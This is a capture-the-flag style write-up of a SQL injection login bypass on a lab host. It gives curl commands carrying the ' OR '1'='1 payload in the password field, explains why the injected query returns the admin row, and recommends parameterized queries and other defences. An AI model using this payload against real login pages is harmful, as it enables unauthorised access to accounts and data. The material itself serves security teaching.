 # SQL Injection Authentication Bypass Writeup

## Challenge Description
A login page vulnerable to SQL injection in the password field, allowing authentication bypass to gain admin privileges and access the flag.

## Vulnerability Summary
**Type**: SQL Injection  
**Location**: `account-password` parameter  
**CVSS Score**: 9.8 (Critical)  
**Impact**: Full authentication bypass

## Successful Exploitation

### Exploit Steps
1. **Perform SQL injection**:
   ```bash
   curl -X POST -d "userid=admin&account-password=' OR '1'='1" \
     http://challenge.localhost/logon -c cookies.txt
   ```

2. **Access admin dashboard**:
   ```bash
   curl -b cookies.txt http://challenge.localhost/logon
   ```

### Single Command Version:
```bash
curl -X POST -d "userid=admin&account-password=' OR '1'='1" http://challenge.localhost/logon -c cookies.txt
curl -b cookies.txt http://challenge.localhost/logon
```

## Technical Analysis

### Vulnerability Details
The application constructs SQL queries by directly interpolating user input:
```python
query = f"SELECT ... WHERE username = '{username}' AND password = '{password}'"
```

### Payload Breakdown
- `userid=admin`: Valid username
- `account-password=' OR '1'='1`:
  - `'` closes the string literal
  - `OR '1'='1` creates always-true condition
  - Results in query:
    ```sql
    SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1'
    ```

### Why It Works
1. The `OR '1'='1` makes the WHERE clause always true
2. Returns the admin record without knowing the password
3. Server creates valid admin session

## Impact Assessment
- Complete authentication bypass
- Access to admin privileges
- Disclosure of sensitive data (flag)
- Potential for further database exploitation

## Remediation Recommendations

1. **Use Parameterized Queries**:
   ```python
   db.execute("SELECT ... WHERE username=? AND password=?", (username, password))
   ```

2. **Implement Defense in Depth**:
   - Input validation (allowlist characters)
   - Password hashing (bcrypt/scrypt)
   - Web Application Firewall rules
   - Rate limiting login attempts

3. **Secure Coding Practices**:
   - Principle of least privilege
   - Regular security testing
   - Secure session management

## Lesson Learned
This challenge demonstrates the critical importance of:
- Never trusting user input in SQL queries
- Always using parameterized statements
- Implementing defense in depth for authentication systems